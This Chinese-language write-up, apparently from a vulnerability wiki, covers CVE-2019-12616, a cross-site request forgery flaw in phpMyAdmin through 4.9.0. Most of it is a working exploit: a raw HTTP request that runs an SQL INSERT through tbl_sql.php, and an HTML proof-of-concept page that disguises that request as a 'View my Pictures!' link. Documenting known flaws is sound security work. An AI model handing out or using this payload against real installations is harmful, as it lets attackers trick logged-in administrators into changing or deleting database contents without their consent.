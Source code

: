 ```yaml
---
title: "（CVE-2019-12616）Phpmyadmin CSRF"
id: zhfly3084
---
```


# （CVE-2019-12616）Phpmyadmin CSRF

## 一、漏洞简介

4.9.0之前在phpmyadmin中发现了一个问题。发现一个漏洞，允许攻击者对phpMyAdmin用户触发CSRF攻击。攻击者可以欺骗用户。

```
例如通过指向受害者的phpMyAdmin数据库的一个损坏的<img>标记，并且攻击者可以潜在地将有效负载（例如特定的插入或删除语句）传递给受害者。 
```

## 二、漏洞影响

Phpmyadmin <= 4.9.0

## 三、复现过程

```
GET http://www.0-sec.org:9000/tbl_sql.php?sql_query=INSERT+INTO+%60pma__bookmark%60+(%60id%60%2C+%60dbase%60%2C+%60user%60%2C+%60label%60%2C+%60query%60)+VALUES+(DAYOFWEEK(%27%27)%2C+%27%27%2C+%27%27%2C+%27%27%2C+%27%27)&show_query=1&db=phpmyadmin&table=pma__bookmark HTTP/1.1 `User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:67.0) Gecko/20100101 Firefox/67.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Connection: keep-alive

Cookie: pmaCookieVer=5; pma_lang=en; pma_collation_connection=utf8mb4_unicode_ci; pmaUser-1=%7B%22iv%22%3A%22M16ZzlA0rqF9BZ1jFsssjQ%3D%3D%22%2C%22mac%22%3A%22804941d12fceca0997e181cbcb8427d68c668240%22%2C%22payload%22%3A%22mD9juTxAYhC7lA7XPWHWOw%3D%3D%22%7D; phpMyAdmin=9bdd66557e399fc1447bf253bc2dc133

Upgrade-Insecure-Requests: 1

Host: localhost:9000` 
```

攻击者可以很容易地创建一个假超链接，其中包含希望代表用户执行的请求，这样就可能由于错误地使用http方法而导致csrf攻击

```
#POC
<!doctype html> `<html lang=“en”>

<head>

<meta charset=“utf-8”>

<title>POC CVE-2019-12616</title>

</head>

<body>

<a href=“[http://www.0-sec.org:9000/tbl_sql.php?sql_query=INSERT+INTO+](http://www.0-sec.org:9000/tbl_sql.php?sql_query=INSERT+INTO+)`pma__bookmark`+(`id`%2C+`dbase`%2C+`user`%2C+`label`%2C+`query`)+VALUES+(DAYOFWEEK(’’)%2C+’’%2C+’’%2C+’’%2C+’’)&show_query=1&db=phpmyadmin&table=pma__bookmark”>View my Pictures!</a>

</body>

</html>` 
```